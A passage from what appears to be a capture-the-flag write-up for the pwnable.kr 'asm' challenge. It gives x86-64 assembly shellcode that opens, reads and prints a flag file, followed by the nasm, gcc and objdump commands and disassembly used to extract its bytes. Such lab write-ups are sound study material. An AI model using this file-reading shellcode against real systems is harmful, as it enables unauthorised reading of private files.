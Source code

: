 ```Assembly
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
; syscall write to stdout
xor rdi, rdi
add dil, 1 ; set stdout fd = 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
; syscall exit
xor rax, rax
add al, 60
syscall
  
_push_filename:
call _readfile
path: db "/home/asm_pwn/this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000
000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ongA"
```

Great, let's the shellcode of this (`a.asm` is the updated code):
```bash
tom/tmp/try | [0] 
$ nasm -f elf64 -g a.asm 
tom/tmp/try | [0] 
$ gcc -g a.o -o a
tom/tmp/try | [0] 
$ objdump -d ./a

./a:     file format elf64-x86-64

[....]

0000000000001130 <main>:
    1130:	eb 42                	jmp    1174 <_push_filename>

0000000000001132 <_readfile>:
    1132:	5f                   	pop    %rdi
    1133:	80 b7 f5 00 00 00 41 	xorb   $0x41,0xf5(%rdi)
    113a:	48 31 c0             	xor    %rax,%rax
    113d:	04 02                	add    $0x2,%al
    113f:	48 31 f6             	xor    %rsi,%rsi
    1142:	0f 05                	syscall 
    1144:	66 81 ec ff 0f       	sub    $0xfff,%sp
    1149:	48 8d 34 24          	lea    (%rsp),%rsi
    114d:	48 89 c7             	mov    %rax,%rdi
    1150:	48 31 d2             	xor    %rdx,%rdx
    1153:	66 ba ff 0f          	mov    $0xfff,%dx
    1157:	48 31 c0             	xor    %rax,%rax
    115a:	0f 05                	syscall 
    115c:	48 31 ff             	xor    %rdi,%rdi
    115f:	40 80 c7 01          	add    $0x1,%dil
    1163:	48 89 c2             	mov    %rax,%rdx
    1166:	48 31 c0             	xor    %rax,%rax
    1169:	04 01                	add    $0x1,%al
    116b:	0f 05                	syscall 
    116d:	48 31 c0             	xor    %rax,%rax
```